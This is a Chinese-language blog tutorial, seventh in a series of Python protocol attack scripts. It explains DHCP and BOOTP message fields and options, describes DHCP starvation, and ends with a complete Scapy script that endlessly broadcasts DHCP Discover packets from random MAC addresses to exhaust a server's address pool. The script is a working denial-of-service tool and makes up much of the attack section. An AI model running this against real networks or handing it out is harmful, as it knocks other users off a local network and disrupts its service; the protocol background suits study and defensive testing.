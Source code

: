 # Python 协议攻击脚本(七): DHCP攻击

## DCHP

**DHCP**

> 动态主机设置协议（英语：Dynamic Host Configuration Protocol，缩写：DHCP）是一个局域网的网络协议，使用UDP协议工作

**BOOTP**

> BOOTP（Bootstrap Protocol，引导程序协议）是一种引导协议，基于IP/UDP协议，也称自举协议，是DHCP协议的前身。

**关系**

* DHCP 是BOOTP 的增强版本都是基于TCP/IP协议的协议

* DHCP的消息格式是基于BOOTP的消息格式的

**报文部分字段**

- op：消息操作代码
  * 1 客户端请求报文（BOOTREQUEST）
  * 2 服务器响应报文（BOOTREPLY）
- xid：事务ID，由客户端选择的一个随机数，被服务器和客户端用来在它们之间交流请求和响应
- chaddr：客户端MAC地址
- option：选项字段

**常见option选项**

| Option  id | name         | 描述      |
| ---------- | ------------ | --------- |
| 1          | Subnet Mask  | 子网掩码  |
| 3          | Router       | 网关      |
| 6          | DNS Server   | DNS服务器 |
| 51         | IP  address lease time             | IP地址租期 |
| 53         | Message type | 消息类型  |
| 54 | DHCP Server Identifier | DHCP服务器身份 |

**IP请求中的Message type**:

* 1 DHCP发现（DISCOVER）
* 2 DHCP提供（OFFER）
* 3 DHCP请求（REQUEST）
* 5 DHCP确认（Acknowledge，ACK）

**DHCP耗尽攻击**

不断的发送`DHCP Dscover`来向DHCP服务器请求IP地址,导致地址池耗尽,对网络造成破坏

**详见:**

[DHCP协议 | wiki]([https://zh.wikipedia.org/wiki/%E5%8A%A8%E6%80%81%E4%B8%BB%E6%9C%BA%E8%AE%BE%E7%BD%AE%E5%8D%8F%E8%AE%AE#DHCP_NAK](https://zh.wikipedia.org/wiki/动态主机设置协议#DHCP_NAK))

[DHCP Option 文档 | cisco](<https://www.cisco.com/c/en/us/td/docs/net_mgmt/prime/network_registrar/8-3/dhcp/guide/CPNR_8_3_DHCP_Guide/bk_CPNR_DHCP_User_Guide_appendix_0111.pdf>)

[BOOTP/DHCP options](http://www.networksorcery.com/enp/protocol/bootp/options.htm)



## 数据包分析

```
DHCP 服务器: 192.168.1.1
地址池:192.168.1.100-200
```

![mark](http://cdn.youyouorz.top/blog/img/20190506/E5vsMNhKPA62.png?imageslim)

Ether

* src: `本机mac`
* dst: `ff:ff:ff:ff:ff:ff` 广播地址

IP

* src: `0.0.0.0`

UDP

* src port:`68`
* dst port:`67`

DHCP

* chaddr:`本机mac`

* option: `53 Discover`

## 编写脚本

```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

from scapy.all import (
    Ether,
    RandMAC,
    IP,
    UDP,
    BOOTP,
    DHCP,
    sendp
)
import random

def dhcp_discover(iface):
    while 1:
        xid_random = random.randint(1, 900000000)
        mac_random = str(RandMAC())
        dhcp_discover = (Ether(src=mac_random,dst='ff:ff:ff:ff:ff:ff')/
                     IP(src='0.0.0.0',dst='255.255.255.255')/
                     UDP(sport=68,dport=67)/
                     BOOTP(chaddr=mac_random,xid=xid_random,flags=0x8000)/
                     DHCP(options=[('message-type','discover')]
                     ))

        sendp(dhcp_discover,iface=iface)



if __name__ == '__main__':
    iface = 'eth0'
    dhcp_discover(iface)
```

